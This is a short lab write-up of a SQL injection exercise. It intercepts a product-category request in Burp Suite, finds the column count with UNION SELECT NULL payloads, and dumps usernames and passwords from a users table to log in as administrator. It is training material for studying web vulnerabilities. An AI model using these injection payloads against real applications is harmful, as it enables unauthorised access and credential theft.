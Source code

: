 ```yaml
---
custom_edit_url: null
sidebar_position: 10
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/32298c1f-08fc-45aa-9772-36e4d2635e30)

Let's filter for `Accessories`.

![2](https://github.com/Knign/Write-ups/assets/110326359/6f54e509-b9f2-434d-9764-35f2e9f6586f)

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

![3](https://github.com/Knign/Write-ups/assets/110326359/6ec58a00-8557-4fc7-80e0-10bbbb9fb2b8)

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT NULL--
```

![4](https://github.com/Knign/Write-ups/assets/110326359/23dd6f87-8045-4d2e-9a55-b7ce062a926f)

Since the application returns an error, we know that the number of columns in the current query is more than 1.

Let's set the `category` parameter to the following:

```
' UNION SELECT NULL,NULL--
```

![5](https://github.com/Knign/Write-ups/assets/110326359/a1355107-c973-4f65-bd6e-adc302c3ea4b)

Now that we know the current query has two columns, we can retrieve the usernames and password from the `username` and `password` columns respectively.

```
' UNION SELECT NULL,username||':'||password FROM users--
```

The `||` characters are used to concatenate strings together. So we are essentially dumping the username and password in the same column in the following format:

```
username:password
```

![6](https://github.com/Knign/Write-ups/assets/110326359/3bd733d5-44e8-4003-8470-880c6b3149ea)

We can now login as the admin using the following credentials:

| Username | Password |
| -------- | -------- |
| administrator         | fq4yq6966ve3gff4iz65         |

![7](https://github.com/Knign/Write-ups/assets/110326359/ba4067df-4a1d-4ad5-b00d-7375511f4cc4)

We have solved the lab.

![8](https://github.com/Knign/Write-ups/assets/110326359/3a7114a4-c067-4abb-b98b-02dcd30811fc)
